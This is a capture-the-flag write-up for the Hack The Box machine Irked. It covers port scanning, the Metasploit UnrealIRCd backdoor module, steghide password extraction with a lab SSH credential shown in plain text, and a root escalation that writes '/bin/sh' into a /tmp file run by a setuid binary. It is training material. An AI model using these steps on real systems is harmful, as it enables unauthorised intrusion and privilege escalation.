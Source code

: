 ```yaml
---
"title": "Hack The Box - Irked"
"date": 2019-12-06
"tags": ["linux", "easy", "steg"]
"keywords": ["linux", "easy", "steg"]
"categories": "HackTheBox"
"author": "Ghostbyt3"
"description": "We are going to pwn Irked from Hack The Box."
"featured_image": "/img/htb-irked/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox - Writeup"
---
```



![Untitled](/img/htb-irked/1.png)

We are going to pwn Irked from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/163](https://www.hackthebox.eu/home/machines/profile/163)


Like always begin with our Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
60236/tcp open  unknown
65534/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39016/udp6  status
|   100024  1          45688/udp   status
|   100024  1          52691/tcp6  status
|_  100024  1          60236/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60236/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Start from HTTP port 
![Untitled](/img/htb-irked/2.png)[br/](br/)
This image looks suspecious , lets try Gobuster

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.117
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/10 23:56:59 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
===============================================================
2019/12/10 23:59:11 Finished
===============================================================
```

Nothing useful. Check other ports.
We know ``UnrealIRCD`` running, search them in searchsploit for any exploits
![Untitled](/img/htb-irked/3.png)

I choose randomly and started with ``metasploit`` one

>https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor

>use exploit/unix/irc/unreal_ircd_3281_backdoor

## Getting Shell

![Untitled](/img/htb-irked/4.png)[br/](br/)
Set RHOST and LHOST

I got the shell as ``ircd``[br/](br/)
![Untitled](/img/htb-irked/5.png)[br/](br/)
While checking the home directory I found an user ``djmardov`` and got ``.backup`` file. 
It says ``steg`` maybe it is ``Stegnanography``

## Getting User Djmardov

We already saw an image in webpage , download it
I tried with [steghide](https://github.com/StefanoDeVuono/steghide)

>steghide - a steganography program

![Untitled](/img/htb-irked/6.png)

It has a file called ``pass.txt``which is password protected and we got the pass already from ``.backup``

I got a password

![Untitled](/img/htb-irked/7.png)

```
extract, --extract      extract data
-xf, --extractfile      select file name for extracted data
```

So I tried with them in ``ssh`` - ``djmardov:Kab6h+m+bbp2J:HG``[br/](br/)
![Untitled](/img/htb-irked/8.png)


## Privilege Escalation

There is an setuid binary ``viewuser``[br/](br/)
![Untitled](/img/htb-irked/9.png)

While executing it search for a file called ``listusers`` in ``/tmp``[br/](br/)
![Untitled](/img/htb-irked/10.png)

Which is not found so we create one and make that gives us shell.[br/](br/)
![Untitled](/img/htb-irked/11.png)

I created one and tried executed the file ``viewuser`` it says permission denied for ``listusers``, I forgot to give permission and then it worked.
> echo “/bin/sh” > listusers

I got Root~



